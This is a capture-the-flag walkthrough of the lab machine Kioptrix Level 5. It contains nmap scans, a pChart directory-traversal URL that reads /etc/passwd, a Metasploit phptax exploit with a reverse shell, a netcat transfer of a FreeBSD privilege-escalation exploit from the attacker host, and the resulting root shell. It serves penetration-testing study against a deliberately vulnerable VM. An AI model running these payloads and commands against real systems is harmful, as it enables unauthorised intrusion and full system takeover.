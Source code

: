 # Kioptrix Level 5 Walkthrough

# Kioptrix level 5

## Setup

For the machine to assign an ip you must remove the network adapter and add it again.

## Resolution
### Vulnerability scanning and analysis
I start by doing a scan of the local network with arp-scan to discover the ip of the target machine.

```bash
arp-scan -I eth0 --localnet

-I -> indicate the interface 
--localnet -> we indicate to generate addresses from the interface configuration.
```

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled.png)

I get that the ip of my target is 192.168.66.163, so I do a port scan with nmap.
```bash
nmap -p- --open  -T5 -n -Pn -vvv 192.168.66.163 -oN Target
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-31 15:46 EDT
Initiating ARP Ping Scan at 15:46
Scanning 192.168.66.163 [1 port]
Completed ARP Ping Scan at 15:46, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 15:46
Scanning 192.168.66.163 [65535 ports]
Discovered open port 80/tcp on 192.168.66.163
Discovered open port 8080/tcp on 192.168.66.163
Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 9.90% done; ETC: 15:48 (0:01:31 remaining)
Completed SYN Stealth Scan at 15:47, 53.95s elapsed (65535 total ports)
Nmap scan report for 192.168.66.163
Host is up, received arp-response (0.00015s latency).
Scanned at 2023-08-31 15:46:49 EDT for 54s
Not shown: 65532 filtered tcp ports (no-response), 1 closed tcp port (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
80/tcp   open  http       syn-ack ttl 64
8080/tcp open  http-proxy syn-ack ttl 64
MAC Address: 00:0C:29:5B:14:9E (VMware)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 54.25 seconds
           Raw packets sent: 131110 (5.769MB) | Rcvd: 50 (2.410KB)
```

I notice that ports 80 and 8080 are open, and I perform a second, more specific scan to obtain the version of the services running.
```bash
──(root㉿kali)-[/home/kali/vulnhub/OSCP/kioptrix_level_5]
└─# nmap -p80,8080 -sCV 192.168.66.163                        
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-31 15:49 EDT
Nmap scan report for 192.168.66.163
Host is up (0.00040s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
8080/tcp open  http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-title: 403 Forbidden
MAC Address: 00:0C:29:5B:14:9E (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.05 seconds
```

After reviewing the results I noticed that the version of mod_ssl/2.2.21 is vulnerable but the exploit for this vulnerability does not contain a valid version for FreeBSD apache 2.2.21 so it did not work.

I then went on to check the web with port 80.
![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%201.png)

And when I opened the source code of the page I discovered a url address.
![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%202.png)

When I opened it I discovered the following:

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%203.png)
### Exploitation
Searching what phpchart is I found out that it is a php library to display text data graphically.
Then I searched if there is any vulnerability for this version and I found the following page.
[Exploiting pChart 2.1.3 (Directory traversal & XSS)](https://vk9-sec.com/exploiting-pchart-2-1-3-directory-traversal-xss/)

Reading I see that it is vulnerable to directory traversal so I enter the following address and get the /etc/passwd file
```bash
http://192.168.66.163/pChart2.1.3/examples/index.php?Action=View&Script=/../../../../etc/passwd
```
Reading a little more the web I discover that FreeBSD operating systems have the Apache configuration file in the following path, so I will read it now.

```bash
/usr/local/etc/apache22/httpd.conf
```

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%204.png)

Observing the result and after trying a log poison without success I see that the configuration file shows an allowed User-Agent (Mozilla/4.0 Mozilla4 browser) and a virtualHost on port 8080.

Through a browser extension I change the user agent

[https://addons.mozilla.org/en-US/firefox/addon/user-agent-switcher-revived/](https://addons.mozilla.org/en-US/firefox/addon/user-agent-switcher-revived/)

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%205.png)

With the user agent changed I perform the web search with port 8080 and I see the following.

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%206.png)

I click on phptax and the following page appears.

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%207.png)

Searching for an exploit for phptax I find the following exploits

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%208.png)

I have decided to use metasploit so by executing the following series of commands I get a shell.

```bash
#start  metasploit
msfconsole -q
#exploit search
search phptax
#select exploit
use 0
#setup
options
set RHOSTS 192.168.66.163
set RPORT 8080
show advanced
set UserAgent Mozilla/4.0 Mozilla4_browser
set payload payload/cmd/unix/reverse
set LHOST 192.168.66.152
set LPORT 4444
run
```
### Privilege escalation
We obtain a shell and enumerate.

```bash
whoami
www
id
uid=80(www) gid=80(www) groups=80(www)
uname -a
FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
```

After enumerating a little bit the next step I did was to search if there is any exploit for the FreeBSD version of the machine.

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%209.png)

There is an exploit to escalate privileges so I download it on my machine and then transfer it to the target machine with netcat.

```bash
searchsploit -m freebsd/local/26368.c
  Exploit: FreeBSD 9.0 < 9.1 - 'mmap/ptrace' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/26368
     Path: /usr/share/exploitdb/exploits/freebsd/local/26368.c
    Codes: CVE-2013-2171, OSVDB-94414
 Verified: True
File Type: C source, ASCII text
Copied to: /home/kali/vulnhub/OSCP/kioptrix_level_5/26368.c
```

I listen on my kali and connect from the target machine to perform the transfer in the /tmp directory.

```bash
#Kali
nc -lvp 4444 < 26368.c                            
listening on [any] 4444 ...

#kioptrix
nc -nv 192.168.66.152 4444 > 26368.c                                                                                                                                                                                                        
Connection to 192.168.66.152 4444 port [tcp/*] succeeded!
```

once transferred I compile the exploit and run it getting a shell as root

```bash
gcc 26368.c -o exploit
./exploit
whoami
root
id
uid=0(root) gid=0(wheel) egid=80(www) groups=80(www)
cat congrats.txt
If you are reading this, it means you got root (or cheated).
```

